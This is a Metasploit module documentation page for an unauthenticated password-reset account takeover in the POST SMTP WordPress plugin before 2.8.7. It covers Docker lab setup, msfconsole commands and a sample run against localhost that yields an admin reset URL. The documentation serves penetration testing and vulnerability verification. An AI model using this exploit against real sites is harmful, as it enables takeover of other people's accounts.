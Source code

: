 ## Vulnerable Application

The POST SMTP WordPress plugin prior to 2.8.7 is affected by a privilege
escalation where an unauthenticated user is able to reset the password
of an arbitrary user. This is done by requesting a password reset, then
viewing the latest email logs to find the associated password reset email.

### Install

1. Create `wp_post_smtp_acct_takeover.docker-compose.yml` with the content:
```
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:

```
2. `docker-compose -f wp_post_smtp_acct_takeover.docker-compose.yml up`
3. `wget https://downloads.wordpress.org/plugin/post-smtp.2.8.6.zip`
4. `unzip post-smtp.2.8.6.zip`
5. `docker cp post-smtp <wordpress_container_id>:/var/www/html/wp-content/plugins`
6. Complete the setup of wordpress
7. Enable the post-smtp plugin, select "default" for the SMTP service
  1. Complete the setup using random information, it isn't validated.
8. Update permalink structure per https://github.com/rapid7/metasploit-framework/pull/18164#issuecomment-1623744244
  1. Settings -> Permalinks -> Permalink structure -> Select "Post name" -> Save Changes.


## Verification Steps

1. Install the vulnerable plugin
2. Start msfconsole
3. Do: `use auxiliary/admin/http/wp_post_smtp_acct_takeover`
4. Do: `set rhost 127.0.0.1`
5. Do: `set rport 5555`
6. Do: `set ssl false`
7. Do: `set username <username>`
8. Do: `set verbose true`
9. Do: `run`
10. Visit the output URL to reset the user's password.

## Options

### USERNAME

The username to perform a password reset against

## Scenarios

### Wordpress 6.6.2 with SMTP Post 2.8.6 on Docker

```
msf6 > use auxiliary/admin/http/wp_post_smtp_acct_takeover
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set rport 5555
rport => 5555
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set ssl false
ssl => false
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set username admin
username => admin
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set verbose true
verbose => true
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/post-smtp/readme.txt
[*] Found version 2.8.6 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to Registering token fUefO7U12dXtb0DM on device GP3tOFuMfFErw
[+] Succesfully created token: fUefO7U12dXtb0DM
[*] Requesting logs
[*] Requesting email content from logs for ID 4
[+] Full text of log saved to: /home/mtcyr/.msf4/loot/20241029142103_default_127.0.0.1_wordpress.post_s_367186.txt
[+] Reset URL: http://127.0.0.1:5555/wp-login.php?action=rp&key=4kxMwfuvyQtcUDVrh985&login=admin&wp_lang=en_US
[*] Auxiliary module execution completed
```